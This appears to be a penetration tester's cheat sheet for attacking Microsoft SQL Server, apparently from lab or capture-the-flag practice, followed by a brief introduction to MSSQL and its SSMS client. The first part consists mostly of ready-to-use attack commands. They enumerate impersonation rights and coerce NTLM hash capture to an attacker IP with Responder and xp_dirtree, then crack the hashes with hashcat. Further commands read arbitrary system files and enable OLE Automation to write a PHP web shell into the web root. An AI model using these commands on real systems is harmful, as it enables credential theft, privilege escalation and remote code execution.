 ```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'

enum_impersonate
exec_as_user <grantor>
exec_as_login <grantor>
```
##### Capture Hash
**THIS CAN ALSO BE USED WITH AN SMB RELAY ATTACK TO GAIN A LOCAL ADMIN** 
```bash
sudo responder -I tun0
xp_dirtree \\10.10.14.3\adot8\
xp_subdirs \\10.10.14.3\adot8\
```

```bash
hashcat -m 2000 mssql.hash ~/rockyou.txt -O
```
##### Read and copy file
```sql
select x from OpenRowset(BULK 'C:\Users\Administrator\Desktop\root.txt',SINGLE_CLOB) R(x)

select x from OpenRowset(BULK 'C:\windows\win.ini',SINGLE_CLOB) R(x)

create table #errortable (ignore int)
bulk insert #errortable from '\\localhost\c$\windows\win.ini' with ( fieldterminator=',', rowterminator='\n', errorfile='c:\thatjusthappend.txt' )
```
##### Write local files
```bash
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```
[Microsoft SQL](https://www.microsoft.com/en-us/sql-server/sql-server-2019) (`MSSQL`) is Microsoft's SQL-based relational database management system. Unlike MySQL, which we discussed in the last section, MSSQL is closed source and was initially written to run on Windows operating systems. It is popular among database administrators and developers when building applications that run on Microsoft's .NET framework due to its strong native support for .NET.
### MSSQL Clients
[SQL Server Management Studio](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-ver15) (`SSMS`) comes as a feature that can be installed with the MSSQL install package or can be downloaded & installed separately. It is commonly installed on the server for initial configuration and long-term management of databases by admins. Keep in mind that since SSMS is a client-side application, it can be installed and used on any system an admin or developer is planning to manage the database from.
